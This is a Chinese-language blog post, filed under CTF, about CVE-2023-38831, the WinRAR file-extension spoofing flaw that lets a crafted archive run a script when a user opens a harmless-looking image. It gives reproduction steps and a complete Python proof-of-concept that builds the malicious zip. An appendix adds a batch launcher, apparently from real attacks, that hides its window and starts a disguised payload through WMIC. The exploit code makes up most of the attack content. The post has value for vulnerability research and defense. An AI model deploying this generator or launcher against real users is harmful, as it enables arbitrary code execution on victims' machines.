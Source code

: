 ```yaml
---
title: CVE-2023-38831 Winrar文件扩展欺骗
date: 2023-08-27 14:19:49
categories: CTF
tags: [CVE]
---
```


 WinRAR 在处理压缩包内同名的文件与文件夹时存在代码执行漏洞。攻击者构建由恶意文件与非恶意文件构成的特制压缩包文件，诱导受害者打开此文件中看似无害的文件（如JPG文件）后，将在受害者机器上执行任意代码。目前此漏洞存在在野利用。

## 漏洞原理

ShellExecute 函数接收到打开文件的错误参数。图片的文件名不符合搜索条件，导致被跳过。最终Winrar发现并执行批处理文件，而不是查找预期的图片。 

影响版本：WinRAR <6.23 

## 漏洞复现

实际测试了多个winrar版本：下载链接：https://winrar.en.uptodown.com/windows/versions

1.电脑上安装Winrar6.22

2.生成poc.zip或者poc.rar文件，默认用winrar打开，测试了发现bat和dos脚本可以成功执行，而vbs无法执行。

3.打开zip，双击jpg文件，此时目录下的脚本被执行。

![1693376871430](CVE-2023-38831/1693376871430.png)

[611下载](https://www.winrar.com.cn/download/winrar-x64-611scp.exe)

[官网623下载地址](https://www.rarlab.com/rar/winrar-x64-623sc.exe)

![1693370508867](Untitled%201/1693370508867.png)

## POC

> [Go版本的](https://github.com/Garck3h/cve-2023-38831 )

```
import os
import zipfile
import shutil

TempFile = "result"

def main():
    print("cve-2023-38831.py by Garck3h,modified by Paul\n")
    args = os.sys.argv[1:]  # Get command-line arguments
    argLen = len(args)

    if argLen > 2:
        TypeFile = os.path.basename(args[0])  # Extract file type
        Payload = os.path.basename(args[1])   # Extract payload file
        file_extension = os.path.splitext(Payload)[1]
        OuputFile = os.path.basename(args[2])  # Extract output file
    else:
        print("Usage:\n    python cve-2023-38831.py <TypeFile> <Payload> <OuputFile>")
        os.sys.exit(1)

    print("TypeFile:", TypeFile)
    print("Payload:", Payload)
    print("OuputFile:", OuputFile)



    try:
        os.mkdir(TempFile)  # Create temporary directory
    except Exception as e:
        print(e)
        os.sys.exit(1)

    d = os.path.join(TempFile, TypeFile + "A")
    try:
        os.mkdir(d, 0o755)  # Create subdirectory under temporary directory
    except Exception as e:
        print(e)
        os.sys.exit(1)

    try:
        shutil.copy(Payload, os.path.join(d, TypeFile + "A"+file_extension))  # Copy payload file to TypeFileA.cmd
    except Exception as e:
        print(e)
        os.sys.exit(1)

    try:
        shutil.copy(TypeFile, os.path.join(TempFile, TypeFile + "B"))  # Copy file type file to TypeFileB
    except Exception as e:
        print(e)
        os.sys.exit(1)

    try:
        zip_directory(TempFile)  # Zip the temporary directory
    except Exception as e:
        print(e)
        os.sys.exit(1)

    try:
        with open(TempFile + ".zip", "rb") as file:
            file_content = file.read()  # Read the compressed file content
    except Exception as e:
        print(e)
        os.sys.exit(1)

    bait_ext = "." + TypeFile.split(".")[1]  # Extract file extension
    file_content = bytes_replace(file_content, bait_ext.encode() + b"A", bait_ext.encode() + b" ")  # Replace "TypeFileA" with "TypeFile "
    file_content = bytes_replace(file_content, bait_ext.encode() + b"B", bait_ext.encode() + b" ")  # Replace "TypeFileB" with "TypeFile "

    try:
        os.remove(TempFile + ".zip")  # Delete temporary zip file
    except Exception as e:
        print(e)
        os.sys.exit(1)

    try:
        print("Changing suffix..")
        with open(OuputFile, "wb") as file:
            file.write(file_content)  # Write modified content to output file
    except Exception as e:
        print(e)
        os.sys.exit(1)
    try:
        shutil.rmtree(TempFile)  # Delete temporary directory
    except Exception as e:
        print(e)
        os.sys.exit(1)
    print("Generation completed")

def copy_file(src, dst):
    with open(src, "rb") as in_file, open(dst, "wb") as out_file:
        out_file.write(in_file.read())

def zip_directory(dir_name):
    with zipfile.ZipFile(TempFile + ".zip", "w", zipfile.ZIP_DEFLATED) as zip_file:
        for root, _, files in os.walk(dir_name):
            for file in files:
                file_path = os.path.join(root, file)
                arcname = os.path.relpath(file_path, dir_name)
                zip_file.write(file_path, arcname=arcname)

def bytes_replace(source, old, new):
    return source.replace(old, new)

if __name__ == "__main__":
    main()
```



自解压缩包 (Self-extracting archive)

 一个 **Cabinet Self-extractor file** (袖珍自我提取文件)，通常称为 SFX CAB 文件 

## 附录

记录一个dos命令

```
@echo off
if not DEFINED IS_MINIMIZED (
  set IS_MINIMIZED=1
  start "" /min "%~dpnx0" %*
  exit
)

cd %TEMP%

for /F "delims=" %%K in ('dir /b /s "Screenshot_05-04-2023.jpg"') do (
  for /F "delims=" %%G in ('dir /b /s "Images.ico"') do (
    WMIC process call create "%%~G"
    "%%~K"
    cd %CD%
    exit
  )
)
exit
```

